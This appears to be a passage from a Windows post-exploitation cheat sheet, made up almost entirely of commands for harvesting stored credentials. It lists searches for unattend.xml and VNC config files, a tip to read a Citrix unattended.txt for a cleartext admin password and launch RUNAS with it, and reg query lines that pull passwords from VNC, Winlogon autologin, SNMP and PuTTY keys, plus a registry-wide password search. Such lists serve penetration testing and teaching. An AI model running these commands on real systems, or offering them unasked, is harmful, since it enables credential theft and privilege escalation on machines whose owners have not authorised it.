## Other Searches
```
dir c:\*unattend.xml /s /b
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

## systems with citrix:
check for c:\unattended.txt which may have clear text password for admin
if so:
```
RUNAS /U:LOCALADMIN CMD.EXE
```

# Passwords In Registry:
## VNC
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

## Windows autologin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AlternateShells"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\SpecialAccounts"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\UserDefaults"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\VolatileUserMgrKey"
```

## SNMP Paramters
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

## Putty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

## Search for password in registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
